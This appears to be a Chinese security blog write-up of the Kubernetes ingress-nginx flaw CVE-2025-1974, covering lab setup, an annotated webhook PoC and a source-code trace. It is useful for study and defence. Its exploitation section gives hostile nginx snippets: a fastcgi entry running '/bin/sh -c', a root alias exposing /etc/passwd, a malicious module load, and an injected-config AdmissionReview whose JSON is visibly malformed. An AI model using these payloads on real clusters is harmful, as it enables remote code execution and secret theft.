







# ingress nginx CVE-2025-1974 漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/17670  
> **文章ID**: 17670

---

# 0x00 前言

大家好，这里是环境准备10小时，复现漏洞10分钟的Moon。 本文抛砖引玉，能力有效，还请见谅。

本文主要是针对CVE-2025-1974的分析，解决如下几个问题：

1. CVE-2025-1974 是什么
2. CVE-2025-1974 复现
3. CVE-2025-1974出现原因
4. CVE-2025-1974发现路径

* ai or 人工

1. CVE-2025-1974

## 1.漏洞简要说明

A security issue was discovered in Kubernetes where under certain conditions, an unauthenticated attacker with access to the pod network can achieve arbitrary code execution in the context of the ingress-nginx controller. This can lead to disclosure of Secrets accessible to the controller. (Note that in the default installation, the controller can access all Secrets cluster-wide.)

Kubernetes中发现了一个安全问题，在某些情况下，可以访问pod网络的未经身份验证的攻击者可以在ingress nginx控制器的上下文中执行任意代码。这可能会导致控制器可访问的秘密泄露。（请注意，在默认安装中，控制器可以访问整个Secrets集群。）

### 1.1 影响版本

* ingress-nginx≤ 1.11.4
* ingress-nginx=1.12.0

### 1.2 CVSS：9.8

### 1.3 整体评价：

有用，但是用处有限。CVE的评分有时候是不可信的，因为部分CSRF也会给一个很高的分数。且此漏洞影响范围没有想象中的那么大，且利用难度大，范围小。实战遇到凭运气。

对于本人而言，非职业攻击利用人员，分析漏洞并不是一定要有用，能学到东西即可。

### 1.4 修复方式

**K8S没有暴露公网的可以稳一手，低优先级，等整体版本升级的时候再考虑是否升级。**  
正经修复方式：

* 升级
* 限制validating-webhook端口访问，validating-webhook是什么后面会说

### 1.5 参考：

<https://www.cve.org/CVERecord?id=CVE-2025-1974>  
<https://github.com/kubernetes/ingress-nginx>

## 2.补充资料

看了有助于理解

**ingress-nginx**：ingress-nginx 是 Kubernetes 中一个开源的 Ingress 控制器（Ingress Controller），基于高性能的 Web 服务器和反向代理工具 Nginx 构建。它的核心作用是管理 Kubernetes 集群外部对内部服务的访问（如 HTTP/HTTPS 流量），提供灵活的流量路由、负载均衡、SSL 终止等功能。

**Ingress** 相当于是一个映射关系，根据域名（host）或路径（path）路由流量到不同的服务。  
Ingress 控制器，相当于去控制重新加载nginx配置等。

**AdmissionReview** 请求 是 Kubernetes 中用于 准入控制（Admission Control） 的核心机制。当用户或系统组件向 Kubernetes API 服务器发起资源操作请求（如创建、更新、删除 Pod、Deployment 等）时，API 服务器会将请求的详细信息封装为 AdmissionReview 对象，发送给配置的 准入控制器（Admission Controller） 进行校验或修改。准入控制器根据规则决定是否允许该请求，或是否需要修改请求内容。

## 2.漏洞简要说明

# 0x02 漏洞复现

## 1.环境准备

漏洞复现需要前置条件：

* docker
* kubectl
* Minikube

可以简单的介绍一下Minikube，Minikube 的主要作用是让开发者能够在本地环境中快速搭建一个单节点的 Kubernetes 集群。它简化了 Kubernetes 的安装和配置过程，使得开发者可以专注于应用开发，而不需要处理复杂的集群管理问题。

docker比较通用，所以自行安装即可

### 1.1 kubectl 安装

安装这个工具主要用于管理k8s

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl  
```

下载的慢，就用本机下载好，copy进虚拟机就行

### 1.2 安装 Minikube

安装这个主要是为了可以快速的启动一个单节点的 k8s

```
curl -LO https://storage.googleapis.com/minikube/releases/latest/minikube-linux-amd64
sudo install minikube-linux-amd64 /usr/local/bin/minikube
```

### 1.3 启动 Minikube

```
minikube start
```

如果出现`❌ Exiting due to DRV_AS_ROOT: The "docker" driver should not be used with root privileges.`就是说把你的dokcer守护进程是使用root开启的，使用如下命令进行解决：

```
minikube start --force --driver=docker
```

当然如果是国内的话，可能会遇到新的问题，就是img一直下载不下来，则使用如下的办法：

```
#拉取国内kicbase镜像
docker pull registry.cn-hangzhou.aliyuncs.com/google_containers/kicbase:v0.0.46
#指定基础镜像创建
minikube delete ; minikube start --force  --base-image='registry.cn-hangzhou.aliyuncs.com/google_containers/kicbase:v0.0.46'
```

简单的解释一下： kicbase 是 Kubernetes 内部使用的组件,通常用于 Minikube 这样的本地 Kubernetes 发行版

### 1.4 ingress-nginx 安装

这里如果是对k8s不熟悉的同学肯定就不知道怎么办了，所以我们可以直接问Kimi，或者其他AI，显著降低了环境部署的时间。当然也可以使用传统的方法，找大佬的环境，或者是其他的一些部署资料，我们这里主要还是简单介绍一下：使用 Kubernetes 配置文件 创建ingress-nginx。

首先找到yaml下载的地址，我们切换到1.11.3，然后下载这个deploy.yaml



这里建议下载好了之后放到Vm里，免得wget半天。

```
apt-get update && apt-get install -y apt-transport-https
curl -fsSL https://mirrors.aliyun.com/kubernetes-new/core/stable/v1.29/deb/Release.key |
    gpg --dearmor -o /etc/apt/keyrings/kubernetes-apt-keyring.gpg
echo "deb [signed-by=/etc/apt/keyrings/kubernetes-apt-keyring.gpg] https://mirrors.aliyun.com/kubernetes-new/core/stable/v1.29/deb/ /" |
    tee /etc/apt/sources.list.d/kubernetes.list
apt-get update
apt-get install -y kubelet kubeadm kubectl
```

下载好了之后记得换源：

```
registry.k8s.io/ingress-nginx/controller:v1.11.3@sha256:d56f135b6462cfc476447cfe564b83a45e8bb7da2774963b00d12161112270b7 替换为：registry.aliyuncs.com/google_containers/nginx-ingress-controller:v1.11.3
registry.k8s.io/ingress-nginx/kube-webhook-certgen:v1.4.4@sha256:a9f03b34a3cbfbb26d103a14046ab2c5130a80c3d69d526ff8063d2b37b9fd3f 替换为：registry.aliyuncs.com/google_containers/kube-webhook-certgen:v1.4.4
```

记得是全局替换哈。

通过kubectl进行下载

```
kubectl apply -f deploy.yaml
```

创建好了之后，通过kubectl进行查看

```
kubectl get pods -n ingress-nginx
```

如下则环境部署成功



## 2.漏洞复现分析

如果只是单纯的复现一下，其实是没有很重大的意义的，为什么才是复现的目的。

poc参考：  
<https://github.com/sandumjacob/IngressNightmare-POCs/tree/main/CVE-2025-1974>  
<https://github.com/hakaioffsec/IngressNightmare-PoC>

### 2.1 复现

#### 2.1.1 获取poc

获取<https://github.com/sandumjacob/IngressNightmare-POCs/tree/main/CVE-2025-1974文件夹>

#### 2.1.2 端口映射

然后这里需要把内部端口映射一下，因为是有网络隔离的。

这里需要解释的是为什么是8443，这个端口在yaml文件中可以看到是validating-webhook的，Ingress-nginx 使用这个 webhook 来验证传入的 Ingress 资源是否符合要求。

```
kubectl port-forward -n ingress-nginx ingress-nginx-controller-{通过kubectl查询的id} 8888:8443
```

#### 2.1.3 poc验证

```
curl --insecure -v -H "Content-Type: application/json" --data @poc.json https://localhost:8888/go
```

这里注意，需要切换到poc.json文件夹目录下，就是会把他当做json参数进行传递。

#### 2.1.4 结果验证

看到最后的success，就算是复现完成了。



## 3.poc分析

谁家好人就单纯的跑一下poc，肯定还要有poc分析，否则复现没有意义。

重点就是poc.json了，这里的json是，Kubernetes 的 AdmissionReview 请求，用于创建一个 Ingress 资源。详细的内容，我直接标准在后面。

```
{
  "apiVersion": "admission.k8s.io/v1", # 版本
  "kind": "AdmissionReview", # 表示为一个AdmissionReview对象
  "request": { # 包含了具体的请求内容，包括资源类型、操作和对象。
    "kind": {
      "group": "networking.k8s.io", # 表示资源的API组，主要用于管理与网络相关的资源。Ingress 可以配置负载均衡、SSL 终止和基于名称的虚拟主机等功能
      "version": "v1", # 版本
      "kind": "Ingress" # 资源
    },
    "resource": {
      "group": "",
      "version": "v1",
      "resource": "namespaces" # 命名空间
    },
    "operation": "CREATE", # 创建操作
    "object": {
      "metadata": {
        "name": "deads", # ingress资源的名称，这里的内容是一个变量
        "annotations": { # 注解字段，后续的持续利用也是在这里进行的
            "nginx.ingress.kubernetes.io/mirror-host": "test" # nginx.ingress.kubernetes.io/mirror-host 用于配置 请求镜像功能。请求镜像是一种将原始请求同时发送到另一个后端服务的技术。相当于流量转发，负载相同的操作。当配置了 mirror-host 后，Nginx Ingress Controller 会将原始请求发送到指定的主机。这里等效于nginx配置中的mirror-host
        }
      },
      "spec": {
        "rules": [
        {
            "host": "jacobsandum.com",# Ingress 规则仅适用于访问 此域名
            "http": {
            "paths": [
                {
                "path": "/", # 该规则适用于访问 jacobsandum.com 的根路径。
                "pathType": "Prefix",
                "backend": {
                    "service": {
                    "name": "kubernetes",
                    "port": {
                        "number": 80 # 当请求的域名是 jacobsandum.com，并且路径是 / 或以 / 开头时，请求会被路由到名为 kubernetes 的服务的 80 端口。
                    }
                    }
                }
                }
            ]
            }
        }
        ],
        "ingressClassName": "nginx"
      }
    }
  }
}
```

分析完poc，实际上就知道其实很多内容都没有必要，可以精简

```
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "kind": {
      "group": "networking.k8s.io",
      "version": "v1",
      "kind": "Ingress"
    },
    "resource": {
      "group": "",
      "version": "v1",
      "resource": "namespaces"
    },
    "operation": "CREATE",
    "object": {
      "metadata": {
        "name": "deads",
        "annotations": {
        }
      },
      "spec": {
        "rules": [
        {
            "host": "abc.com",
            "http": {
            "paths": [
                {
                "path": "/abc",
                "pathType": "Prefix",
                "backend": {
                    "service": {
                    "name": "kubernetes",
                    "port": {
                        "number": 80
                    }
                    }
                }
                }
            ]
            }
        }
        ],
        "ingressClassName": "nginx"
      }
    }
  }
}
```

# 0x03 代码分析

## 1.漏洞位置追溯

分析源码直接上git上找，然后在Issue中搜索cve名称，这个也是代码分析的第一个入口

可以看到是在1.12.1中修复



看到它里面的描述是说暂时注释了进行尝试测试的代码片段。

在Releases中发现在1.11.5也有相关修复片段。



在这里看到了修改记录



至此，我们就知道了漏洞修复位置`internal/ingress/controller/controller.go`

## 2.漏洞分析

为了方便分析，我们下载了1.11.3的源码,然后找到对应位置：internal/ingress/controller/controller.go 424

### 2.3 CheckIngress

NGINX Ingress Controller中的CheckIngress方法，用于验证一个Kubernetes Ingress资源是否有效。在如下位置，会把content传入testTemplate进行验证。

```
    content, err := n.generateTemplate(cfg, *pcfg)
    if err != nil {
        n.metricCollector.IncCheckErrorCount(ing.ObjectMeta.Namespace, ing.Name)
        return err
    }

    err = n.testTemplate(content)
    if err != nil {
        n.metricCollector.IncCheckErrorCount(ing.ObjectMeta.Namespace, ing.Name)
        return err
    }
```

**什么操作会触发这个方法？**

当用户通过Kubernetes API创建一个新的Ingress资源时，Ingress Controller会调用CheckIngress方法来验证该Ingress是否有效。这里也验证了为什么我们的poc是create操作。当然除了创建，删除，以及更新实际上也都会触发这个操作。

我们现在跟进到testTemplate方法

### 2.2 testTemplate

`internal\ingress\controller\
ginx.go`

testTemplate实际上就类似于nginx -t操作

```
func (n *NGINXController) testTemplate(cfg []byte) error {
    // 检查配置是否为空
    if len(cfg) == 0 {
        return fmt.Errorf("invalid NGINX configuration (empty)")
    }
    
    // 创建一个临时目录
    tmpDir := os.TempDir() + "/nginx"
    
    // 创建一个临时文件来存储配置
    tmpfile, err := os.CreateTemp(tmpDir, tempNginxPattern)
    if err != nil {
        return err
    }
    defer tmpfile.Close() // 确保临时文件在函数结束时关闭
    
    // 将配置写入临时文件
    err = os.WriteFile(tmpfile.Name(), cfg, file.ReadWriteByUser)
    if err != nil {
        return err
    }
    
    // 使用NGINX的测试命令来验证配置
    out, err := n.command.Test(tmpfile.Name())
    if err != nil {
        // 如果配置无效，返回详细的错误信息
        oe := fmt.Sprintf(`
-------------------------------------------------------------------------------
Error: %v
%v
-------------------------------------------------------------------------------
`, err, string(out))
        
        return errors.New(oe)
    }
    
    // 删除临时文件
    os.Remove(tmpfile.Name())
    
    // 如果配置有效，返回nil表示没有错误
    return nil
}
```

这里很清楚的看到测试文件配置写入到临时文件，然后调用`n.command.Test`

### 2.3 n.command.Test

`internal\ingress\controller\util.go`

使用exec.Command执行NGINX命令，传递参数 -c 和 -t 来进行语法检查

```
// Test checks if config file is a syntax valid nginx configuration
func (nc NginxCommand) Test(cfg string) ([]byte, error) {
    //nolint:gosec // Ignore G204 error
    return exec.Command(nc.Binary, "-c", cfg, "-t").CombinedOutput()
}
```

### 小结

其实可以看到这里的逻辑是很清楚的，没有什么弯弯绕绕的，甚至不如调用链。那么这里如果要RCE的话就要参考nginx 配置文件rce了

# 0x04 漏洞发现

那么比较重要的一个问题，就是这个漏洞到底是什么发现的。

## 1.人工追溯分析

这里能想到的路径就是，正向分析，通过调用方式，比如跟着创建Ingress-nginx 的整个流程和代码进行分析，要求漏洞研究人员，对整体流程都非常了解，且熟悉对应的机制。

既然和nginx一样的逻辑，那么必然是有一个方法是用来处理逻辑的，经过灰盒测试，发现这里有一个测试的方法，从而发现了这个漏洞。

## 2.AI 分析

这里可以看到AI一眼识别，但是还是要求需要发现者有一定的理论基础和熟练度才可以精准的进行识别。



# 0x05 漏洞利用

漏洞利用网上有很多的poc了，实际上就是你现在可以控制nginx的配置文件，然后就要去看如何去利用。

比如网上传播的 ssl\_engine

除了ssl\_engine以外还有一些其他的利用方式，感兴趣的师傅可以继续研究

攻击者控制您的Nginx配置文件后，可能通过以下途径进一步获取服务器权限，具体攻击场景及示例分析如下：

### **1. 反向代理暴露内部服务**

* **攻击方式**：修改配置将特定路径反向代理到本地敏感服务（如SSH、数据库、管理后台）。
* **示例**：

```
location /internal {
    proxy_pass http://127.0.0.1:8080;  # 暴露本地的Jenkins、Redis等未授权服务
}
```

* 若本地8080端口运行未设密码的Redis，攻击者可利用`redis-cli`连接并写入SSH密钥，获取系统权限。

### **2. 执行恶意代码（CGI/SSI）**

* **攻击方式**：启用并配置CGI或SSI（Server Side Includes），执行系统命令。
* **示例**：

```
location /exec {
    fastcgi_pass unix:/var/run/fcgiwrap.socket;
    include fastcgi_params;
    fastcgi_param SCRIPT_FILENAME /bin/sh;
    fastcgi_param SCRIPT_NAME "-c 'id > /tmp/exploit'";  # 执行命令写入文件
}
```

* 访问`/exec`会触发命令执行，写入恶意文件或反弹Shell。

### **3. 路径遍历与敏感文件窃取**

* **攻击方式**：篡改`alias`或`root`路径，暴露系统文件或网站源码。
* **示例**：

```
location /secret {
    alias /;  # 通过URL访问根目录
}
```

* 访问`/secret/etc/passwd`可下载系统密码文件，获取用户列表用于爆破。

### **4. 日志文件篡改**

* **攻击方式**：修改日志路径，用于隐藏攻击痕迹或植入恶意代码。
* **示例**：

```
access_log /var/www/html/logs/access.log;
error_log /var/www/html/public/error.log;
```

* 将日志写入Web目录，配合文件上传漏洞，将PHP代码写入日志文件，再请求该日志执行WebShell。

### **5. 权限提升**

* **攻击方式**：若Nginx以`root`运行，攻击者可利用配置加载恶意模块或启动脚本。
* **示例**：

```
load_module modules/ngx_http_evil_module.so;  # 加载恶意动态模块
```

* 恶意模块可能直接提供后门或提权漏洞。

### **6. 绕过访问控制**

* **攻击方式**：禁用身份验证或IP白名单，暴露管理接口。
* **示例**：

```
location /admin {
    # 删除原有的allow/deny规则或auth_basic配置
    proxy_pass http://localhost:8000;
}
```

* 攻击者直接访问管理后台，利用弱口令或漏洞获取控制权。

### **7. 客户端请求漏洞利用**

* **攻击方式**：关闭请求大小限制或验证，导致拒绝服务（DoS）或上传恶意文件。
* **示例**：

```
client_max_body_size 0;  # 允许无限大文件上传
client_body_buffer_size 1M;
```

* 上传超大文件填满磁盘，或通过上传WebShell获取控制权。

### **8. 恶意HTTP头注入**

* **攻击方式**：添加自定义HTTP头泄露信息或篡改安全策略。
* **示例**：

```
add_header Server-Info "OS: Ubuntu; User: root";  # 泄露服务器敏感信息
add_header Access-Control-Allow-Origin "*";      # 允许任意域跨域请求
```

* 泄露的信息可能被用于针对性攻击（如利用已知漏洞）。

### **9. 动态模块或外部脚本执行**

* **攻击方式**：通过配置调用外部脚本解释器（如Perl、Lua）。
* **示例**：

```
location ~ \.pl$ {
    root           /var/www/scripts;
    fastcgi_pass   unix:/var/run/fcgiwrap.socket;
    include        fastcgi_params;
}
```

* 上传恶意Perl脚本并访问，执行系统命令。

大家可以通过nginx的配置转为AdmissionReview即可，比如：

```
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "uid": "1234567890",
    "kind": {
      "group": "networking.k8s.io",
      "version": "v1",
      "kind": "Ingress"
    },
    "resource": {
      "group": "networking.k8s.io",
      "version": "v1",
      "resource": "ingresses"
    },
    "operation": "CREATE",
    "object": {
      "metadata": {
        "name": "example-ingress",
        "annotations": {
          "nginx.ingress.kubernetes.io/configuration-snippet": "location /exec {
  fastcgi_pass unix:/var/run/fcgiwrap.socket;
  include fastcgi_params;
  fastcgi_param SCRIPT_FILENAME /bin/sh;
  fastcgi_param SCRIPT_NAME "-c ''";
}"
        }
      },
      "spec": {
        "rules": [
          {
            "host": "example.com",
            "http": {
              "paths": [
                {
                  "path": "/",
                  "pathType": "Prefix",
                  "backend": {
                    "service": {
                      "name": "my-service",
                      "port": {
                        "number": 80
                      }
                    }
                  }
                }
              ]
            }
          }
        "ingressClassName": "nginx"
      }
    }
  }
}
```

# 0x06 总结

如有任何言辞不当之处，还请各位大佬手下留情。
